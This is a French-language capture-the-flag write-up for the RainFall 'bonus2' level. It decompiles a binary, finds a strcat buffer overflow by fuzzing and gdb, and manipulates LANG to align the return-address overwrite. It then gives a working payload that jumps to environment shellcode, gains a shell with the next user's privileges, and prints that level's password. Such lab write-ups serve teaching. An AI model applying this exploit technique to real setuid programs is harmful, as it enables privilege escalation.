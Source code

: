 # **Bonus 02**

Pour le `bonus2`, on decompile le code:

```
void greetuser(void)
{
  undefined4 local_4c;
  undefined4 local_48;
  undefined4 local_44;
  undefined4 local_40;
  undefined2 local_3c;
  undefined local_3a;
  
  if (language == 1) {
    local_4c = 0xc3767948;
    local_48 = 0x20a4c3a4;
    local_44 = 0x69a4c370;
    local_40 = 0xc3a4c376;
    local_3c = 0x20a4;
    local_3a = 0;
  }
  else if (language == 2) {
    local_4c = 0x64656f47;
    local_48 = 0x64696d65;
    local_44 = 0x21676164;
    local_40 = CONCAT22(local_40._2_2_,0x20);
  }
  else if (language == 0) {
    local_4c = 0x6c6c6548;
    local_48 = CONCAT13(local_48._3_1_,0x206f);
  }
  strcat((char *)&local_4c,&stack0x00000004);
  puts((char *)&local_4c);
  return;
}

undefined4 main(int param_1,int param_2)
{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  undefined4 *puVar4;
  byte bVar5;
  undefined4 local_60 [10];
  char acStack_38 [36];
  char *local_14;
  
  bVar5 = 0;
  if (param_1 == 3) {
    puVar3 = local_60;
    for (iVar2 = 0x13; iVar2 != 0; iVar2 = iVar2 + -1) {
      *puVar3 = 0;
      puVar3 = puVar3 + 1;
    }
    strncpy((char *)local_60,*(char **)(param_2 + 4),0x28);
    strncpy(acStack_38,*(char **)(param_2 + 8),0x20);
    local_14 = getenv("LANG");
    if (local_14 != (char *)0x0) {
      iVar2 = memcmp(local_14,&DAT_0804873d,2);
      if (iVar2 == 0) {
        language = 1;
      }
      else {
        iVar2 = memcmp(local_14,&DAT_08048740,2);
        if (iVar2 == 0) {
          language = 2;
        }
      }
    }
    puVar3 = local_60;
    puVar4 = (undefined4 *)&stack0xffffff50;
    for (iVar2 = 0x13; iVar2 != 0; iVar2 = iVar2 + -1) {
      *puVar4 = *puVar3;
      puVar3 = puVar3 + (uint)bVar5 * -2 + 1;
      puVar4 = puVar4 + (uint)bVar5 * -2 + 1;
    }
    uVar1 = greetuser();
  }
  else {
    uVar1 = 1;
  }
  return uVar1;
}
```

Pour ce niveau, le code n'etant pas clair, on decide de le tester, pour ce faire on voit que la fonction prend 2 arguments donc va remplir les buffer pour voir si on `SEGFAULT`

```
bonus2@RainFall:~$ ./bonus2 $(python -c "print'a'*20 + ' ' + 'b'*20")
Hello aaaaaaaaaaaaaaaaaaaa
bonus2@RainFall:~$ ./bonus2 $(python -c "print'a'*30 + ' ' + 'b'*30")
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
bonus2@RainFall:~$ ./bonus2 $(python -c "print'a'*40 + ' ' + 'b'*40")
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
bonus2@RainFall:~$ ./bonus2 $(python -c "print'a'*50 + ' ' + 'b'*50")
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
bonus2@RainFall:~$ ./bonus2 $(python -c "print'a'*40 + ' ' + 'b'*30")
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
bonus2@RainFall:~$ ./bonus2 $(python -c "print'a'*30 + ' ' + 'b'*40")
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Avec ces tests, nous savons que la fonction `SEGFAULT` si le premier arguments a au moins 40 caracteres
Maintenant nous regardons sur quelle caractere l'executable segfault avec `gdb`

```
(gdb) run $(python -c "print'a'*50 + ' ' + 'b'*50")
Starting program: /home/user/bonus2/bonus2 $(python -c "print'a'*50 + ' ' + 'b'*50")
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb

Program received signal SIGSEGV, Segmentation fault.
0x08006262 in ?? ()
```

Il segfault sur les `b` donc sur le deuxieme arguments mais on remarque qu'un `0x0800` viens ce glisser au milieu, donc on test de changer la variable `LANG` pour regler ce probleme

```
bonus2@RainFall:~$ export LANG=fi
bonus2@RainFall:~$ gdb bonus2
(gdb) run $(python -c "print'a'*50 + ' ' + 'b'*50")
Starting program: /home/user/bonus2/bonus2 $(python -c "print'a'*50 + ' ' + 'b'*50")
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb) 
```

Cela regle le probleme, maintenant trouvons la position exact des caracteres qui sont utilise par eip et remplacons les par notre `SHELLCODE` de l'env du `bonus0`

```
(gdb) run $(python -c "print'a'*50 + ' ' + 'abcdefghijklmnopqrstuvwxyz'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus2/bonus2 $(python -c "print'a'*50 + ' ' + 'abcdefghijklmnopqrstuvwxyz'")
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcdefghijklmnopqrstuvwxyz

Program received signal SIGSEGV, Segmentation fault.
0x76757473 in ?? ()
```

> `0x76757473` correspond a `stuv`

```
bonus2@RainFall:/var/crash$ cat getenvaddr.c 
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv, char **env)
{
	printf("Addr of %s = %p\n", argv[argc-1], getenv(argv[argc - 1]));
}
bonus2@RainFall:/var/crash$ ./a.out SHELLCODE
Addr of SHELLCODE = 0xbffff708
bonus2@RainFall:/var/crash$ cd -
/home/user/bonus2
bonus2@RainFall:~$ ./bonus2 $(python -c "print'a'*40+' '+'b'*18+'\x08\xf8\xff\xbf'")
Hyvää päivää aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbb���
$ id
uid=2012(bonus2) gid=2012(bonus2) euid=2013(bonus3) egid=100(users) groups=2013(bonus3),100(users),2012(bonus2)
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
